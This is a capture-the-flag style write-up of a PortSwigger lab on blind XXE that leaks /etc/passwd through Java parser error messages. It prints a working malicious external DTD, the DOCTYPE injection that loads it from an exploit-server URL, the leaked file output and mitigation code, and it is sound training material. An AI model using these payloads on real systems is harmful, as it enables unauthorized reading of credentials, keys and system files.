

# Lab 06: Exploiting Blind XXE to Retrieve Data via Error Messages

> **Topic**: XXE (XML External Entity) Injection
> **Lab Number**: 06
> **Platform**: PortSwigger Web Security Academy

## Category
XXE Injection — Blind XXE Error-Based Data Exfiltration via Malicious External DTD

## Vulnerability Summary
The stock-check endpoint is vulnerable to blind XXE but does not reflect entity values in the response. Instead of using out-of-band HTTP callbacks, this technique exploits the Java XML parser's verbose error messages. A malicious external DTD reads `/etc/passwd` into a parameter entity, then attempts to use its contents as a filename in a second `SYSTEM` URI — causing a `java.io.FileNotFoundException` that includes the file contents in the error message returned in the HTTP response body. The full `/etc/passwd` was recovered in-band from the error.

## Attack Methodology

### Step 1: Host the Malicious External DTD
Hosted on the exploit server at `https://exploit-0af20031035954c783a4eb9901db0079.exploit-server.net/exploit`:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///invalid/%file;'>">
%eval;
%error;
```

How it works:
1. `%file` — reads `/etc/passwd`
2. `%eval` — declares `%error` whose `SYSTEM` URI is `file:///invalid/<passwd contents>` — a path that cannot exist
3. `%eval;` — triggers the declaration
4. `%error;` — the parser attempts to open `file:///invalid/root:x:0:0:...` and throws `FileNotFoundException`, with the full attempted path (containing the file contents) in the error message

### Step 2: Inject the DOCTYPE to Load the External DTD

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0af20031035954c783a4eb9901db0079.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

### Step 3: Read the File Contents from the Error Response
The server returned HTTP 400 with the error message containing the full `/etc/passwd`:

```
"XML parser exited with error: java.io.FileNotFoundException: /invalid/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
...
```

The entire `/etc/passwd` was returned in-band in the HTTP response. Lab solved.




## Technical Root Cause

The Java XML parser (`java.io.FileNotFoundException`) includes the full attempted file path in its exception message. By constructing a `SYSTEM` URI whose path contains the contents of a target file, the parser's own error reporting becomes the exfiltration channel — no outbound network access required.

```
file:///invalid/  +  <contents of /etc/passwd>
                  ↓
FileNotFoundException: /invalid/root:x:0:0:root:/root:/bin/bash\ndaemon:...
```

The error is caught by the application and returned in the HTTP response body, completing the in-band exfiltration.

### Comparison with Lab 05 (OOB Exfiltration)

| Technique | Channel | Requires Outbound Network | Works if Egress Blocked |
|---|---|---|---|
| Lab 05 — External DTD + OOB | HTTP callback to Collaborator | Yes | No |
| Lab 06 — Error-based | HTTP response body | No | Yes |

Error-based exfiltration is more reliable in environments with strict egress filtering, since it only requires the server to return verbose error messages.

## Impact
- **Full `/etc/passwd` Exfiltration**: All system user accounts, home directories, and shell assignments disclosed
- **No Outbound Network Required**: Works even when the server has no egress to the internet, as long as the external DTD can be loaded (e.g., from an internal server or via a previously established foothold)
- **Scales to Any Readable File**: The same technique works for `/etc/shadow` (if readable), application config files, private keys, and source code

## Proof of Concept

**External DTD** (hosted on exploit server):
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///invalid/%file;'>">
%eval;
%error;
```

**XXE payload**:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://<exploit-server>/exploit"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

File contents appear in the `FileNotFoundException` error message in the HTTP response.

## Key Takeaways
1. **Error Messages Are an Exfiltration Channel**: Verbose parser exceptions that include file paths or entity values can leak data in-band without any OOB infrastructure. This works even when Collaborator callbacks are blocked.
2. **The Invalid Path Trick**: Appending file contents to `file:///invalid/` guarantees a `FileNotFoundException` whose message contains the data. The `/invalid/` prefix ensures the path never resolves, forcing the error.
3. **External DTD Still Required**: Nested parameter entity references (`%error` declared inside `%eval`) are only valid in external DTD subsets — the same constraint as Lab 05. The exploit server hosts the DTD; the inline DOCTYPE only loads it.
4. **Java Parser Behaviour**: This technique relies on the Java XML parser including the full attempted URI in the exception. Other parsers (libxml2, .NET) may produce different error formats — the principle is the same but the error message structure varies.

## Mitigation

```python
# Disable DTD and external entity processing at the parser level
parser = etree.XMLParser(resolve_entities=False, no_network=True, load_dtd=False)
```

```java
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

Additionally, configure the application to return generic error messages rather than raw parser exceptions — this eliminates the error-based exfiltration channel as a defence-in-depth measure.

## References
- [PortSwigger XXE Lab — Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)
- [PortSwigger XXE — Error-based XXE](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages)
- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- PortSwigger Exploit Server
- Chromium

---

*Lab completed on: 2026-05-15*
*Writeup by vibhxr*
